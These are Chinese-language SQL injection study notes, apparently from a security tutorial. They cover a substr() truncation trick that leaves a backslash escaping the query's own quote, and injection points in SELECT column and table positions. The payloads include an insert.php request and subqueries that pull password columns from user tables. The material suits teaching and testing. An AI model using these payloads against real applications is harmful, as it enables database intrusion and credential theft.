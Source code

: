 假设

```php
substr($title,0,10);
```

构造

```
title=aaaaaaaaa'或者\
```

正好十位，`'`被转义成`\'`，

都会变成

```
aaaaaaaaa\
```

恰好可以转义语句本身的单引号

```SQL
insert.php?title=aaaaaaaaa\&content=,1,1),(3,4,(select pwd from user limit 1),1) %23
```



# 注入点

## SELECT

```SQL
SELECT select_expr FROM table_references 
```

### 注入点在select_expr

```sql
SELECT $_GET['id'],content FROM wp_news
```

可以调用

```
test.php?id=(select pwd from users) as title
```

或者盲注

### 注入点在table_reference

```sql
SELECT title,content FROM $_GET['table']
```

我们可以使用

```sql
SELECT title,content FROM (SELECT pwd as title FROM wp_user)
```
